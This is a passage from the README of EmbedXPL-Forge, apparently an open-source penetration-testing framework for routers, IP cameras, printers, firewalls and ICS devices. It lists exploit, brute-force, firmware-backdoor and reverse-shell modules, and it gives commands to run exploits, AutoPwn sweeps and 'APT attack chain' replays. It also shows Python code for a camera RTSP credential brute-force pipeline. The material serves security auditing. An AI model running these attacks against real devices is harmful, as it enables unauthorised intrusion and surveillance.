









<p align="center">
  
</p>

<p align="center">
  <a href="https://pypi.org/project/embedxpl/"></a>
  <a href="https://pypi.org/project/embedxpl/"></a>
  <a href="https://github.com/mrhenrike/EmbedXPL-Forge/actions"></a>
  <a href="LICENSE"></a>
  
  
  
  
  
</p>

# EmbedXPL-Forge

**Embedded & Perimeter Security Assessment Framework**

EmbedXPL-Forge is an open-source exploitation and scanning framework for security professionals auditing routers, switches, IP cameras, NVR/DVR, GPON ONTs, ISP CPEs, printers, IoT, OT/ICS, and embedded edge devices. It provides **2800+ active modules** covering credential testing, vulnerability exploitation, network scanning, payload generation, RTSP camera attacks, firmware manipulation, multi-language PolyExploit orchestration, and a full printer arsenal — with **700+ CVEs** mapped across **114+ vendors** and an **APT Group Attack Engine** that reproduces real-world nation-state attack chains.

> **Version:** 3.2.0


## Features

- **625+ exploit modules** — RCE, auth bypass, path traversal, info disclosure, buffer overflow, DNS hijacking, command injection, backdoor, CSRF, config decrypt, WPA/WPS keygen, factory password generators, heap/stack BOF chains
- **88 credential modules** — dictionary attacks against FTP, SSH, Telnet, HTTP, SNMP, SFTP
- **185+ printer exploit modules** — HP, Canon, Lexmark, Xerox, Ricoh, Brother, Epson, Kyocera, Samsung; PJL/IPP/LPD/WSD/CUPS; Pwn2Own 2026 chains; PrintingShellz; MS-RPRN NTLM coercion
- **Full RTSP camera engine** — route brute-force (195+ routes), credential brute-force (80+ pairs), Basic/Digest auth, RTSPS/TLS, **RTSP-over-HTTP tunnel (pure Python, RFC 2326 App-C)**, nmap/masscan/direct scanner, ONVIF WS-Discovery, M3U output
- **7 custom Nmap NSE scripts** — RTSP discovery, camera fingerprinting, Hikvision/Dahua CVE validation, default credential testing, multi-vendor CVE checks, snapshot capture (`pip install embedxpl[nse]`)
- **Firmware exploitation suite** — format detection, backdoor injection, checksum patching, vendor flash bypass (NETGEAR, TP-Link, D-Link, ASUS)
- **PolyExploit orchestrator** — runtime C/C++ compilation (gcc/clang/mingw/cross), execution of Ruby/Node.js/PHP/Bash/Perl exploits, msfconsole integration, ExploitDB/searchsploit integration
- **ICS/OT modules** — Universal Robots PolyScope 5, RIOT OS, Modbus, S7comm, EtherNet/IP, BACnet, DNP3
- **Smart home / maritime / specialized** — eNet SMART HOME, OpenRemote, Metis maritime IoT (WIC/DFS)
- **5+ scanner modules** — AutoPwn, device-specific scanners, WSD/mDNS printer discovery
- **32 payload modules** — reverse/bind TCP shells for x86, x64, ARM, MIPS, Python, Perl, PHP
- **13 encoder modules** — Base64 and hex encoding for Python, PHP, Perl
- **14 generic modules** — Heartbleed, ShellShock, UPnP IGD, SNMP bruteforce, TCP Xmas, UDP amplification, CVE lookup, DNS hijack detector, AITM interceptor
- **700+ CVEs mapped** — from 2001 to 2026, including 2026 Pwn2Own chains and critical IoT/OT/maritime CVEs
- **APT Group Attack Engine** — browse and reproduce attack chains from APT28, Volt Typhoon, Sandworm, Quad7, Turla, APT40 with MITRE ATT&CK mapping
- **23+ vendor-specific wordlists** — externalized default credentials per vendor (incl. ISP-specific Brazil)
- **Network discovery** — SSDP, ARP, Nmap, Masscan, Scapy fallback, OUI lookup (IEEE 39k+ entries), T0–T5 timing profiles
- **Session management** — persistent scan history per host (IP+MAC), resume/restart, full findings index
- **Chained autopwn modules** — multi-phase vendor-specific exploitation chains (Huawei EG8145X6, CUPS Pwn2Own, Lexmark Pwn2Own, etc.)
- **7 automated quality gates** — `tools/phase_gate.py` ensures every module passes import, anti-FP, reference, and code quality checks before merge

## Supported Device Types

| Type | Coverage | Description |
|------|----------|-------------|
| **Routers / GPON ONT / CPE** | 580+ modules | SOHO routers, enterprise gateways, GPON CPE/ONT (primary focus) |
| **IP Cameras / NVR / DVR** | 60+ modules | Hikvision, Dahua, Axis, Reolink, Amcrest, Uniview, Tapo, Swann, ANNKE, Edimax, Intelbras, Grandstream, Foscam, Xiongmai OEM, MVPower, and 20+ more |
| **Printers / MFP** | 185+ modules | HP, Canon, Lexmark, Xerox, Ricoh, Brother, Epson, Kyocera, Samsung; IPP/PJL/LPD/WSD/CUPS chains |
| **NAS (Network Storage)** | 20+ modules | QNAP, Synology, D-Link NAS, Zyxel NAS |
| **VPN / Firewall Appliances / NGFW** | **202 modules** | Palo Alto, Fortinet, Cisco ASA/FTD/FMC, Check Point, Juniper, SonicWall, Sophos, WatchGuard, Zyxel, F5 BIG-IP, Citrix/NetScaler, Ivanti, Pulse Secure, pfSense, OPNsense, Barracuda, Imperva, MikroTik, Huawei USG, Stormshield, Hillstone, Sangfor, H3C, Radware, Symantec ProxySG, Trend Micro TippingPoint, Trellix, Arista EOS, OpenVPN AS, Phoenix Contact mGuard, Siemens SCALANCE, Moxa EDR, VyOS, IPFire, Kerio, Cisco Meraki, Array Networks + OT/ICS protocol bypass modules |
| **Switches L2/L3** | 3 modules | Managed switches (Cisco, D-Link, NETGEAR) |
| **SOHO Edge** | 9 modules | Travel routers, NAS, wireless APs |
| **ICS / OT / Industrial** | 35+ modules | PLCs, SCADA, Modbus, S7comm, EtherNet/IP, Universal Robots PolyScope 5 |
| **Smart Home / Maritime** | 10+ modules | eNet SMART HOME, OpenRemote IoT, Metis maritime WIC/DFS |
| **Embedded OS** | 25+ modules | RIOT OS, OpenWrt, VxWorks, QNX, wolfSSL devices, Tuya Arduino SDK |

## Supported Vendors

**Network / Router / CPE:** 2Wire · 3Com · ActionTec · Alcatel-Lucent · Alpha Networks · Arris · Aruba · Asmax · Astoria · ASUS · Belkin · BHU · Billion · Binatone · Calix · CERIO · Cisco · Cobham · Comtrend · D-Link · DD-WRT · Draytek · EasyBox (Arcadyan) · Edimax · EE BrightBox · EnGenius · FiberHome · Fortinet · Freebox · GL.iNet · GPON · HooToo · Huawei · Intelbras · IPFire · Juniper · LG · Linksys · Mercury · MiFi (Novatel) · MikroTik · MitraStar · Motorola · Movistar · Netcore · NETGEAR · Netsys · Observa Telecom · OpenWrt · RuggedCom · Ruijie · Seagate · SerComm · Shuttle · Sitecom · SMC · SonicWall · Starbridge · Technicolor · Tenda · Thomson · TOTOLINK · TP-Link · TRENDnet · Ubee · Ubiquiti · Unicorn · UTStarcom · Wavlink · Xiaomi · Zhone · Zoom · ZTE · ZyXEL

**Cameras / NVR / DVR:** Hikvision · Dahua · Axis · Reolink · Amcrest · Uniview (UNV) · Tapo (TP-Link) · Swann · ANNKE · Edimax · Intelbras · Grandstream · Foscam · Acti · Avigilon · Beward · Brickcom · Cisco cameras · Geuterbruck · Honeywell cameras · Jovision · Siemens cameras · Xiongmai (OEM) · Zivif · MVPower DVR · Generic P2P WiFi cameras · Generic DVR/NVR OEM

**Printers / MFP:** HP LaserJet/PageWide · Canon imageRUNNER/imageClass · Lexmark CX/CS/MS/MX · Xerox WorkCentre/AltaLink/VersaLink · Ricoh MP/Aficio/SP · Brother MFC/DCP · Epson WorkForce · Kyocera ECOSYS · Samsung SyncThru · Generic IPP/PJL/LPD/CUPS/WSD

**NAS / VPN / Firewall / Security:** QNAP · Synology · D-Link NAS · Zyxel NAS · Ivanti · SonicWall · Fortinet (FortiOS/FortiGate/FortiWeb/FortiClient EMS) · Palo Alto (PAN-OS) · Cisco ASA/FTD · CheckPoint · Sophos XG · WatchGuard Firebox · Avocent

**ICS / OT / Robotics:** Universal Robots (UR3/UR5/UR10/UR16) · OpenPLC · Modbus TCP · Siemens S7 · EtherNet/IP CIP · BACnet · DNP3 · PROFINET DCP

**Smart Home / Maritime / Embedded OS:** eNet SMART HOME · OpenRemote IoT · Metis WIC/DFS (maritime) · RIOT OS · OpenWrt · VxWorks · QNX · Zephyr · wolfSSL · Tuya arduino-tuyaopen

## Installation

### Option 1 — PyPI (recommended)

```bash
pip install embedxpl
embedxpl
```

### Option 2 — With Nmap NSE scripts

```bash
# Install EmbedXPL + NSE dependencies
pip install "embedxpl[nse]"

# Install the 7 custom NSE scripts into Nmap's scripts directory
python -m embedxpl.nse install
# or using the entry point:
embedxpl-nse install

# Verify installation
python -m embedxpl.nse list
```

> **Note:** On Linux/macOS the install step may require `sudo` to write to `/usr/share/nmap/scripts/`.
> Run: `sudo python -m embedxpl.nse install`

### Option 3 — From source

```bash
git clone https://github.com/mrhenrike/EmbedXPL-Forge.git
cd EmbedXPL-Forge
chmod +x setup_venv.sh run.sh
./setup_venv.sh          # creates .venv (PEP 668 safe)
./run.sh                 # recommended launcher
# or: python exf.py      # auto-detects .venv
# Optional: also install NSE scripts
.venv/bin/python -m embedxpl.nse install
```

### Option 4 — Python module

```bash
pip install embedxpl
python -m embedxpl
```

## Quick Start

```bash
# Install
pip install embedxpl

# Launch interactive shell
embedxpl

# Run a specific module directly
embedxpl -m exploits/routers/tplink/wr841n_credential_disclosure_cve_2023_50224 -s target 192.168.1.1

# Network discovery
embedxpl -c "discover 192.168.1.0/24"

# RTSP camera scan + brute-force
embedxpl -m exploits/cameras/multi/rtsp_cameradar_attack -s target 192.168.1.100

# Nmap NSE quick scan (after pip install embedxpl[nse] + embedxpl-nse install)
nmap -p 554,5554,8554 --script embedxpl-rtsp-discover 192.168.1.0/24
nmap -p 80,443 --script 'embedxpl-*' 192.168.1.100
```

## Usage

### Interactive Shell

```
exf > use exploits/routers/dlink/dir_300_600_rce
exf (D-Link DIR-300 & DIR-600 RCE) > show options
exf (D-Link DIR-300 & DIR-600 RCE) > set target 192.168.1.1
exf (D-Link DIR-300 & DIR-600 RCE) > check
exf (D-Link DIR-300 & DIR-600 RCE) > run
```

### Common Commands

| Command | Description |
|---------|-------------|
| `use <module>` | Select a module |
| `show options` | Display configurable options |
| `show info` | Display module metadata and references |
| `show devices` | List supported device types |
| `set <option> <value>` | Configure an option |
| `check` | Verify if target is vulnerable |
| `run` | Execute the module |
| `search <term>` | Search modules by keyword |
| `discover [subnet] [--timing T0-T5] [--fresh]` | Scan subnet, fingerprint targets, suggest modules |
| `sessions list\|show\|delete\|export\|purge` | Manage persistent scan history per host |
| `apt` | List APT groups with reproducible attack chains |
| `apt show <group>` | View attack chain details (MITRE ATT&CK, CVEs, modules) |
| `apt search <device\|CVE>` | Find APT groups targeting a device or CVE |
| `apt run <group> [#]` | Execute APT attack chain (all or specific attack) |

### APT Group Attack Engine

```
# List all cataloged threat actors
exf > apt list

# Show APT28 attack chain details
exf > apt show apt28

# Search for groups targeting MikroTik
exf > apt search mikrotik

# Execute the full APT28 DNS hijack chain (interactive)
exf > apt run apt28

# Execute only the credential disclosure attack (#0)
exf > apt run apt28 0
```

### Network Discovery

```
# Auto-detect subnet from active interfaces and scan (default timing T3)
exf > discover

# Scan specific subnet with stealth timing
exf > discover 192.168.1.0/24 --timing T1

# Force fresh scan, ignore previous session history
exf > discover 192.168.1.0/24 --fresh
```

Discovery uses a multi-phase pipeline: ARP sweep → Nmap (multi-method host probes) → Scapy → TCP connect fallback. Results are matched against the module catalog and filtered by vendor/model. The IEEE OUI database (`embedxpl/data/oui.txt`) resolves MAC addresses to vendors with online-first lookup and local fallback. When a host exposes WiFi capabilities, the tool recommends [WirelessXPL-Forge](https://github.com/mrhenrike/WirelessXPL-Forge) for wireless-specific attacks.

**Timing profiles (T0–T5)** mirror Nmap conventions:

| Profile | Delay | Use case |
|---------|-------|----------|
| T0 | paranoid — 300s | IDS evasion |
| T1 | sneaky — 15s | Quiet audits |
| T2 | polite — 2s | Minimal impact |
| T3 | normal — 0.5s | Default |
| T4 | aggressive — 0.1s | Fast LAN scans |
| T5 | insane — 0s | CTF / lab only |

### Session Management

```
# List all hosts with scan history
exf > sessions list

# Full history for one host: tested modules, findings, timestamps
exf > sessions show 192.168.1.1

# Export session as JSON
exf > sessions export 192.168.1.1

# Delete one session
exf > sessions delete 192.168.1.1

# Purge all sessions
exf > sessions purge
```

Sessions are stored in `~/.exf_sessions/` as JSON, keyed by SHA-256 of IP+MAC. On re-discovery of a known host, already-tested modules are shown as `[Tested]` and skipped by default.

### AutoPwn Scanner

```
exf > use scanners/autopwn
exf (AutoPwn) > set target 192.168.1.0/24
exf (AutoPwn) > run
```

## RTSP Camera Engine

Full-featured RTSP attack pipeline with Python-native implementation covering all standard RTSP transport modes.

### Transport Modes

| Mode | Port | Class / Method |
|------|------|---------------|
| `rtsp` | 554 | `RTSPClient(host, port)` |
| `rtsps` | 443/8443 | `RTSPClient(host, port, use_tls=True)` |
| `http` | 80/8080 | `RTSPClient(host, port, tunnel_http=True)` |
| `https` | 443/8443 | `RTSPClient(host, port, use_tls=True, tunnel_http=True)` |
| auto | any | `RTSPClient.from_scheme(host, port, "http")` |

### Attack Pipeline

```python
from embedxpl.core.rtsp.scanner  import RTSPScanner
from embedxpl.core.rtsp.attacker import RTSPAttacker
from embedxpl.core.rtsp.models   import RTSPStream

# 1. Discover RTSP-speaking hosts on the network
scanner = RTSPScanner(timeout=5.0)
hosts = scanner.scan_network("192.168.1.0/24", ports=[554, 5554, 8554])
# Returns: [('192.168.1.100', 554), ('192.168.1.101', 8554), ...]

# 2. Run full 5-phase attack pipeline
attacker = RTSPAttacker(timeout=5.0)
results = attacker.attack_all(hosts)

# 3. Inspect results
for stream in results:
    print(stream.url)         # rtsp://admin:@192.168.1.100:554/h264/ch1/main/av_stream
    print(stream.username)    # admin
    print(stream.password)    # (empty string)
    print(stream.route)       # h264/ch1/main/av_stream
    print(stream.auth_type)   # AuthType.BASIC
    print(stream.accessible)  # True
```

**Expected output:**
```
[RTSP] Scanning 192.168.1.0/24 on ports [554, 5554, 8554]...
[RTSP] Found 3 RTSP hosts
[RTSP] 192.168.1.100:554 — Phase 1: Route discovery (195 routes)...
[RTSP] 192.168.1.100:554 — Route found: h264/ch1/main/av_stream
[RTSP] 192.168.1.100:554 — Phase 2: Auth detection → Basic (realm="IP Camera")
[RTSP] 192.168.1.100:554 — Phase 3: Credential brute-force (80 pairs)...
[RTSP] 192.168.1.100:554 — ✓ Credentials: admin:
[RTSP] 192.168.1.100:554 — Phase 4: Stream validated (200 OK)
[RTSP] Attack complete. Accessible streams: 2/3
```

### Skip-Scan Mode (Known Hosts)

```python
# Skip network scan, attack known hosts directly
hosts = scanner.skip_scan(["192.168.1.100:554", "192.168.1.101"])
# Accepts: "host:port", "host", CIDR "192.168.1-2.0-255", hostnames
```

**Expected input/output:**
```python
# Input
hosts = scanner.skip_scan(["camera.local:554", "192.168.1-2.100-110"])

# Output: [(resolved_ip, port), ...]
# [('192.168.1.100', 554), ('192.168.1.200', 554), ('192.168.1.100', 554), ...]
```

### RTSP-over-HTTP Tunnel

Used when cameras are behind HTTP proxies or corporate firewalls that block TCP/554.

```python
from embedxpl.core.rtsp.client import RTSPClient, RTSPOverHTTPTunnel

# Direct tunnel usage
tunnel = RTSPOverHTTPTunnel(host="10.0.0.50", port=8080, timeout=10.0)
response = tunnel.send_rtsp_via_http(
    "OPTIONS rtsp://10.0.0.50:8080/ RTSP/1.0\r\nCSeq: 1\r\n\r\n"
)
# Returns: raw RTSP response bytes (base64-decoded from HTTP body)

# Or via RTSPClient factory
client = RTSPClient.from_scheme("10.0.0.50", 8080, "http", timeout=10.0)
status, server, methods = client.options()  # → (200, "Hikvision NVRA", "OPTIONS, DESCRIBE, SETUP, PLAY")
```

**Expected input/output:**
```
